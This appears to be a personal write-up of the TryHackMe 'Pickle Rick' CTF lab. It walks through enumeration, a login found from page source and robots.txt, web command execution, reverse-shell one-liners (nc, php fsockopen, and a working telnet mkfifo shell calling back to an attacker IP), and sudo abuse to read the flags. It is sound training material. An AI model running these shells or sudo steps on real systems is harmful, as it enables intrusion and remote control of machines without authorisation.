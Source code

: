 # TryHackMe: Pickle Rick CTF

Notes/writeup for the THM CTF machine titled "Pickle Rick."

This is a fun machine that focuses on enumeration and investigation, reverse shells, and the linux file system.

* * *

## Enumeration

After starting the machine, I immediately ran a few different processes to gain a basic understanding of the machine and services.

The initial results were:

```
dirb:
	/assets/

nmap:
	port 22: OpenSSH
	port 80: Apache on Ubuntu
		System:
		Apache/2.4.18 (Ubuntu) Server at 10.10.139.155 		Port 80 
```

Main/Front Webpage:
![Front page](../cs_img_dir/front_page.png)


Source Code:
```
Note to self, remember username!

Username: R1ckRul3s
```

```
- username is embedded in the html code
- The text references "BURP" twice; At this point, I'm not sure if this is a reference to the show, or a hint that Burp Suite will be useful. 
```

With that said, I decided to open Burp and saw that the images being used were contained within a directory called /assets which is accessible.

	GET /assets/rickandmorty.jpeg
	/assets/ 

/assets contains photos and js files - I thought that perhaps the images contain something interesting. I ran stegseek while the nmap and dirb processes were finishing up, however nothing unusual was found in the photos 

    robots.txt: Wubbalubbadubdub 

I appended the string from robots.txt at the end of the URL as well as a subdirectory of /assets/ but nothing found. This will likely be useful at some point, however.


As seen above, the initial enumeration of the website did not return anything useful. I executed further enumeration with gobuster, and widened the scope to include various file extensions.

```
 gobuster -u http://10.10.139.155/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php,sh,txt,cgi,html -t 15
 
 Gobuster:
 /login.php 
```
This revealed a login page, which is likely the key to gaining a foothold on the system. 

With that discovery, a fair amount of progress has been made:

```
Known:
	- Username
	- Login page/a web form
	- a string, potentially a password 
```

With these discoveries, I attempted login for the user R1ckRul3s with the string found in robots.txt. Authentication was succesful and I was greeted with a command execution box.

* * *

## Foothold

The first commands I executed within the web terminal were:

```
id

ls -lah
```

As usual, we have a webshell with the www-data user, uid 33:

```
uid=33(www-data) gid=33(www-data) groups=33(www-data) 
```

Immediately, the files output from ls, named below, stand out:

```
Sup3rS3cretPickl3Ingred.txt
clue.txt 
```

I attempted to run the cat command, however permission was denied, so we need to either find a way around this or find a privesc exploit.
Before moving on, however, I decided to try the strings command:

```bash
strings clue.txt
```

Fortunately, this does work. The file reads:

```
"Look around the file system for the other ingredient." 
```

```bash
strings Sup3rS3cretPickl3Ingred.txt
```

I then tried the strings command for the "Sup3rS3cretPickl3Ingred.txt" file and surely enough, it worked. We now have our first flag/ingredient.

At this point, everything within the current directory is exhausted, so it is clear that in order to find more clues/flags, we will have to move onto other areas, as the clue suggests. I attempted to cd into different common directories and ran pwd, which as expected, showed we are within the:

```
/var/www/html 
```

directory, however I was unable to change directories.

* * *

## Exploitation

In order to make further progress, a more useful reverse shell must be established. Two common ways of accomplishing this would be to either start a local python http server and wget the reverse shell, or to simply use php/bash/netcat one-liner and directly execute it via the limited command input we already have.

I decided to go with the direct execution method and tried the following:

```
cmd:"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.13.5.104 4443 >/tmp/f"
```

The same error was seen, "Command disabled."

I then decided to try using php commands, which I generated via revshells.com.

```
nc -lvnp <port>
```

```
php -r '$sock=fsockopen("IP",PORT);exec("/bin/bash <&3 >&3 2>&3");'
```

![failed connection](../cs_img_dir/revshell_fail.png)

The command was clearly executed, as a connection was made with netcat, however it immediately closed and could not be accesed. While this specific command did not work, there is at least confirmation that the commands are running and that connections can be made.

I continued trying various different methods, including php cmd, php exec, nc, bash, etc., none of which worked, however I was able to succesfully establish a reverse shell using telnet, via the following command:

```
TF=$(mktemp -u);mkfifo $TF && telnet 10.13.5.104 4443 0<$TF | /bin/bash 1>$TF
```

First, I tried some broad searches to see if anything immediately stuck out:

```
locate *.txt
locate *.sh
```

I did not see anything particularly interesting, so I navigated to /home and found a directory called "rick."

Inside of rick was a file called "second ingredients" and executing the cat command succesfully returned the second ingredient.

```
cd /home
cd /rick
ls --> second ingredients
cat * --> flag
```

Now, only one flag/ingredient is left. Given past experience with similar CTF machines, I thought it likely that this last flag would require elevated permissions to access. After attempting to cd into /root, it is clear that the current privilege level does not allow for movement within the root directory despite the machine not displaying any errors via the terminal.

I ran the following commands as a preliminary search for any potential methods of access or vulnerabilties:

```
find . -perm /4000

sudo -l
```

- While I could have easily set up a python http server and simply run linenum, I wanted to try to avoid doing that and instead improve my ability to manually search for any exploits, misconfigurations, and general methods of accessing privileged files or processes.

Interestingly, sudo -l returned "ALL." This came as a surprise, so instead of continuing to search for privesc exploits, I instead tried:

```
sudo ls /root/
```

Surely enough, this did return the contents of /root, including what appears to be the third and final flag.

Next, I tried:

```
sudo cat /root/3rd.txt 
sudo strings /root/3rd.txt
```

However, these did not return anything. I tried one more command:

```
sudo vi /root/3rd.txt
```

and, the third flag was returned!